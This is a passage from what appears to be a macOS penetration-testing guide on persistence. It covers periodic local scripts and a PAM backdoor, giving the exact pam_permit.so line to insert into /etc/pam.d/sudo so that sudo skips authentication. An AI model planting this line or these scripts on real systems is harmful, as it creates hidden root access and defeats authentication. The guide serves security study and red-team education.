 ```bash
grep "Local scripts" /etc/defaults/periodic.conf
daily_local="/etc/daily.local"				# Local scripts
weekly_local="/etc/weekly.local"			# Local scripts
monthly_local="/etc/monthly.local"			# Local scripts
```

If you manage to write any of the files `/etc/daily.local`, `/etc/weekly.local` or `/etc/monthly.local` it will be **executed sooner or later**.

{% hint style="warning" %}
Note that the periodic script will be **executed as the owner of the script**. So if a regular user owns the script, it will be executed as that user (this might prevent privilege escalation attacks).
{% endhint %}

### PAM

Writeup: [Linux Hacktricks PAM](../linux-hardening/linux-post-exploitation/pam-pluggable-authentication-modules.md)\
Writeup: [https://theevilbit.github.io/beyond/beyond\_0005/](https://theevilbit.github.io/beyond/beyond\_0005/)

* Useful to bypass sandbox: [🟠](https://emojipedia.org/large-orange-circle)
  * But you need to be root
* TCC bypass: [🔴](https://emojipedia.org/large-red-circle)

#### Location

* Root always required

#### Description & Exploitation

As PAM is more focused in **persistence** and malware that on easy execution inside macOS, this blog won't give a detailed explanation, **read the writeups to understand this technique better**.

Check PAM modules with:

```bash
ls -l /etc/pam.d
```

A persistence/privilege escalation technique abusing PAM is as easy as modifying the module /etc/pam.d/sudo adding at the beginning the line:

```bash
auth       sufficient     pam_permit.so
```

So it will **looks like** something like this:

```bash
# sudo: auth account password session
auth       sufficient     pam_permit.so
auth       include        sudo_local
auth       sufficient     pam_smartcard.so
auth       required       pam_opendirectory.so
account    required       pam_permit.so
password   required       pam_deny.so
session    required       pam_permit.so
```
